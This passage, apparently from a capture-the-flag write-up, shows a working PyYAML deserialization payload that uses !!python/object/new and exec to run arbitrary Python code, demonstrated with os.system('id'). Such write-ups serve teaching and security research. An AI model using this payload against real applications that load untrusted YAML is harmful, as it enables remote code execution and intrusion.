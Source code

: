 > Note: At the time of this writeup, the latest version of PyYAML is 6.0.2.

Based on [this uiuctf 2020 "deserializeme" writeup by harrier](https://hackmd.io/@harrier/uiuctf20), we can use the following YAML payload to execute arbitrary Python code:

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print(__import__('os').system('id'))"
```

> Note: For more details about the above payload, please feel free to read his writeup!

Let's try that!

![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2024/images/Pasted%20image%2020241117210949.png)
